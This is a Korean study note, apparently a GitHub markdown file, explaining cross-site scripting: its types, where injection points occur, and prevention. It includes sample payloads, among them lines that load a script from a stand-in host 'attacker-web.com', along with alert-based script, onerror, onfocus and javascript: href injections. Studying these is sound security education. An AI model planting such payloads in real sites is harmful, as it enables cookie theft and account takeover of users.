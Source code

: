 # XSS 기초

개인 공부용으로 참고하기 위해서 버그바운티 클럽의 Pentest Gym에서 퍼온 사진과 글을 참고하여 정리한 문서입니다. 

| 출처 : https://www.bugbountyclub.com/pentestgym/view/43

# XSS란?
웹 애플리케이션으로 전달되는 사용자의 입력이 유효성 검증이나 위생처리(인코딩) 없이 서버의 응답에 삽입 될 때 사용자의 웹 브라우저에서 악성 스크립트를 실행할 수 있는 취약점이다. GET 매개변수나 POST 데이터, 숨겨진 폼 필드, HTTP 요청 헤더 등을 통해 전달되게 된다. 즉, 사용자는 이러한 매개체를 통해 웹 애플리케이션이 기대하는 정상적인 입력값이 아닌 HTML 코드나 JS 코드를 서버로 전달할 수 있고, 서버가 이에 대해 안전하지 않은 방식으로 서버의 응답 페이지에 코드를 삽입, 표시한다면 이 코드는 사용자의 웹 브라우저에서 실행되게 된다.

# XSS의 영향
HTML 코드나 JS 코드가 사용자의 웹 브라우저에서 실행되면 어떤 문제가 있을까? XSS의 영향은 웹 애플리케이션마다 다를 수 있지만, 일반적으로 봤을때는 HTML 코드가 삽입 된다면 공격자가 임의로 만든 아이디와 패스워드를 요구하는 웹 페이지를 웹 애플리케이션에 삽입해 아이디와 패스워드를 탈취하거나 JS를 통해 사용자의 쿠키나 세션을 탈취하여 해당 사용자 행세를 할 수 있다. 특히 피해자에게 관리자 권한이 있는 경우에는 웹 애플리케이션을 장악하여 데이터베이스를 수정 및 삭제하는 등 웹 애플리케이션 전반에 걸쳐 치명적 손상을 가할 수 있다. 
- 세션 쿠키 탈취를 통한 계정 도용
- 가짜 로그인 페이지를 통한 자격증명 탈취 및 도용
- 민감한 데이터 유출
- 키 로깅 (Key Logging)

# XSS의 유형
- Reflected XSS(반사된 XSS)
- Stored XSS or Persistent XSS or Type 1 XSS (저장된 XSS)
- DOM XSS (Type 0 XSS)
- Self XSS : 공식적인 유형은 아님

## Reflected XSS(반사된 XSS)
사용자의 입력값이 응답 소스코드에 즉각적으로 포함되어 사용자의 웹 브라우저에 표시될때 발생하는 취약점으로 사용자의 입력값이 악성 스크립트인 경우 웹 브라우저가 이 악성 스크립트를 실행하게 되는 취약점이다. 서버는 요청에 포함된 입력값을 받아 1회성으로 응답에 포함시키므로 비영구 XSS(Non-Persistent XSS)라고도하며, Type 2 XSS라고도 한다

공격자는 입력값으로 악성 자바스크립트 파일의 URL을 다른 웹 사이트의 게시판 링크로 등록하거나 SNS, 이메일 등을 통해 URL을 유포하고 누군가 해당 링크를 클릭하기를 기다린다
만약 어떤 웹 애플리케이션에서 검색 기능이 사용자가 검색한 문자열을 응답에 표시하는 경우 아래와 같은 URL을 사용하여 반사된 XSS 취약점을 악용할 수 있다.
```
https://vulnerable-web.com/search?query=<script%20src=http://attacker-web.com/malicious-script.js>
```
이 URL을 방문한 사용자의 웹 브라우저는 attacker-web.com에 존재하는 malicious-script.js 파일을 실행하게 된다
![](https://www.bugbountyclub.com/uploads/images/training/1618805773.png)

## Stored XSS(저장된 XSS)
사용자 입력값이 서버에 저장되어 있다가 다른 요청에 의해 저장되었던 값을 가져와 응답 소스코드에 안전하지 않은 방식으로 표시하는 경우 발생한다. 인증된 사용자가 사용하는 기능에서 흔히 발생하는 취약점으로 반사된 XSS보다 위험한 취약점으로 평가된다. 일반적으로 취약한 POST 요청을 통해 악성 스크립트를 웹 애플리케이션에 저장하게 된다. 반사된 XSS는 악성 링크에 스크립트가 포함되어 해당 링크를 클릭했을 경우에 한해 공격이 유효했던 것과 달리 악성 스크립트가 웹서버에 지속적으로 저장되어 있다가 이 저장된 입력값을 사용하는 다른 요청에 의해 언제든지 실행될 수 있으므로 영구 XSS(Persistent XSS) 라고도 한다.

저장된 XSS가 흔히 나타나는 기능은 글을 작성하여 등록할 수 있는 게시판이나 블로그 또는 회원 프로필 조회등이 있으며 사용자가 악성 스크립트가 저장된 웹 페이지를 열람할때마다 스크립트를 실행한다
저장된 XSS에 취약한 회원 프로필 수정 기능을 생각한다. 공격자는 자신의 프로필의 소개 섹션에 다음과 같은 악성 스크립트가 포함된 스크립트를 저장해둔다
```
<script%20src=http://attacker-web.com/malicious-script.js>
```
피해자가 공격자의 프로필을 조회할 때마다 스크립트는 피해자의 웹 브라우저에서 실행되고 공격자의 웹 서버에 있는 malicious-script.js를 실행하게 된다
![](https://www.bugbountyclub.com/uploads/images/training/1618805791.png)

## DOM XSS
DOM XSS는 Document Object Model XSS로 웹 애플리케이션이 사용자 입력값을 안전하지 않은 방식으로 문서 객체 모델(DOM)에 쓸 경우 발생하는 취약점이다. DOM에 데이터를 쓰는 작업은 응답 페이지에 구현되어 있는 자바스크립트에 의해 수행되며, 사용자 입력값이 웹 서버로 전송되지 않아도 웹 브라우저에 응답으로 표시될 수 있다. 즉, 웹 서버에 구현된 입력값 검증 등의 방어 기능에서 자유로워 질 수 있다.
![](https://www.bugbountyclub.com/uploads/images/training/1618805810.png) 

## Self XSS
조금 다른 관점에서의 XSS이다. Self XSS는 자바스크립트 코드가 실행되지만 다른 사용자의 웹 브라우저에서는 실행되지 않고 공격자의 웹 브라우저 환경에서만 유효한 경우이다. 이 유형의 XSS는 일반적으로 웹 애플리케이션에 무해한 것으로 평가되어 버그 헌팅시에도 유효버그로 인정 받을 수 없다. 유효 버그로 인정받기 위해선 CSRF와 같은 취약점과 연계하는 방법이 있다.

# XSS는 응답의 어떤 위치에서 나타날까?
위에서 살펴본 XSS 유형들의 공통점은 사용자의 입력값이 응답 소스코드에 표시된다는 점이다.

## HTML 태그와 태그 사이(원시(Raw) HTML 영역)
HTML 태그와 태그의 사이에 사용자의 입력이 삽입되는 경우이다. 다음과 같이 어떤 웹 애플리케이션의 검색 기능에서 사용자가 입력한 검색어가 서버의 응답페이지에 삽입된다고 가정했을때, 사용자가 검색어로 "버그바운티클럽"을 입력한 후 검색 기능을 수행했을때에는 응답이 다음과 같이 나타난다.
```
<p>버그바운티클럽에 대한 4건의 검색 결과를 찾았습니다.</p>
```
`<p>` 태그에서 사용자 입력값이 나타나며, 이런 경우 공격자는 아래와 같은 다양한 HTML 태그를 이용할 수 있다
- `<script>`
- `<img>`
- `<svg>`
- `<iframe>`

아래와 같이 `<script>` 태그를 사용한 페이로드를 구성하여 웹 브라우저에 77이라는 경고를 띄우는 스크립트 실행가능하다
```
<p><script>alert(77)</script>에 대한 0건의 검색 결과를 찾았습니다.</p>
```
아래와 같이 `<img>` 태그와 onerror 이벤트를 이용한 페이로드도 동일한 동작을 수행한다
```
<p><img src=x onerror=alert(77)>에 대한 0건의 검색 결과를 찾았습니다.</p>
```

## HTML 태그 내부의 속성값
다음과 같이 HTML 태그 내부의 속성값에 입력이 삽입되는 경우
```
<input type="text" name="myInput" value="사용자 입력값">
```
위 코드 같은 경우 `<input>` 태그의 value 속성의 값으로 사용자 입력이 삽입된다. 이 경우 태그를 탈출할 수 있는지 여부에 따라 적절한 페이로드를 사용하면 XSS 공격이 가능하다

1. 속성과 태그 모두 탈출이 가능할 때
`"><script>alert(77)</script>`를 이용하여 기존 `<input>` 태그를 정상적으로 종료시키고 원시 HTML 영역에 스크립트를 주입할 수 있다
```
<input type="text" name="myInput" value=""><script>alert(77)</script>">
```

2. 속성은 탈출할 수 있으나 태그를 탈출할 수 없을 때
이벤트를 사용해 `<input>` 태그를 탈출하지 않고도 XSS 공격이 가능하다 다음 예시에서는 onfocus 이벤트를 사용하여 해당 input 필드에 포커싱이 발생하면 팝업을 띄우는 경우이다. onfocus 같은 경우 사용자과 상호작용없이 XSS가 트리거 되도록 자동 포커싱되게 하는 autofocus와 함께 사용된다.
```
<input type="text" name="myInput" value="foobar" onfocus=alert(77) autofocus "">
```

3. hidden 타입으로 된 input 태그의 속성값이 표시될 때
종종 hidden 속성이 지정된 input 태그를 통해 처리에 필요한 파라미터를 전달하곤 하는데 아래와 같이 hidden으로 지정된 input 태그의 value 속성에 사용자 입력이 표시된다고 생각
```
<input type="hidden" id="myInput" value="사용자 입력값">
```
이 경우 사용자 입력으로 꺽쇠괄호(<,>)를 사용할 수 있다면 1. 처럼 태그를 탈출하고 스크립트를 실행할 수 있는 다른 태그를 주입하면 간단히 XSS 실행이 가능하다
하지만 꺽쇠괄호를 무해한 문제로 인코딩하거나 제거하는 필터링이 있다면 2. 대로 속성을 탈출하고 onfocus나 onclick과 같은 이벤트를 통해 XSS를 동작시킨다.

그러나 hidden으로 지정된 태그는 onfocus, onclick과 같은 이벤트가 동작하지 않는다.

4. href 또는 src 속성에 표시될 때
URL 파일 경로를 속성값으로 갖는 href 또는 src 속성에 사용자 입력값이 표시되고 별다른 필터링이 없을 경우이다. (ex. `<a href=....`, `<img src...`, `<iframe src...`)
아래와 같은 javascript 프로토콜을 이용하여 임의의 스크립트를 실행 시킬수도 있다
```
<a href=javascript:alert(77);>임의의 텍스트</a>
```

# XSS 예방
- 사용자 입력값 검증 - HTML 태그나 자바스크립트 등에서 사용될 수 있는 특수문자를 안전한 문자로 치환하거나 차단
- 올바른 데이터 출력값 처리 - 이스케이프 또는 인코딩 사용
- 쿠키에 HttpOnly 플래그 설정
- CSP(Content Security Policy) 적용
- 응답페이지에 올바른 MIME TYPE 설정
- 웹 방화벽 구축
